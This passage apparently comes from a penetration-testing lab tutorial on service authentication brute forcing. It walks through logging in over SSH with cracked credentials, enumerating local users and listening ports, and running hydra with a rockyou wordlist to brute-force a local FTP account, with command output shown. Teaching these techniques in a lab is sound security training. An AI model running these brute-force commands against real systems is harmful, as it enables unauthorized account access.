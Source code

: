 We see that it takes some time to finish, but eventually, we get a working pair, and we identify the user `b.gates`. Now, we can attempt ssh-ing in using the credentials we got:

&#x20; Service Authentication Brute Forcing

```shell-session
root@htb[/htb]$ ssh b.gates@178.35.49.134 -p 22

b.gates@SERVER_IP's password: ********

b.gates@bruteforcing:~$ whoami
b.gates
```

As we can see, we can `SSH` in, and get a shell on the server.

***

### FTP Brute Forcing

Once we are in, we can check out what other users are on the system:

&#x20; Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ ls /home

b.gates  m.gates
```

We notice another user, `m.gates`. We also notice in our local `recon` that port `21` is open locally, indicating that an `FTP` must be available:

&#x20; Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ netstat -antp | grep -i list

(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -                  
```

Next, we can try brute forcing the `FTP` login for the `m.gates` user now.

Note 1: Sometimes administrators test their security measures and policies with different tools. In this case, the administrator of this web server kept "hydra" installed. We can benefit from it and use it against the local system by attacking the FTP service locally or remotely.

Note 2: "rockyou-10.txt" can be found in "/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou-10.txt", which contains 92 passwords in total. This is a shorter version of "rockyou.txt" which includes 14,344,391 passwords.

So, similarly to how we attacked the `SSH` service, we can perform a similar attack on `FTP`:

&#x20; Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking ftp://127.0.0.1:21/

[21][ftp] host: 127.0.0.1   login: m.gates   password: <...SNIP...>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```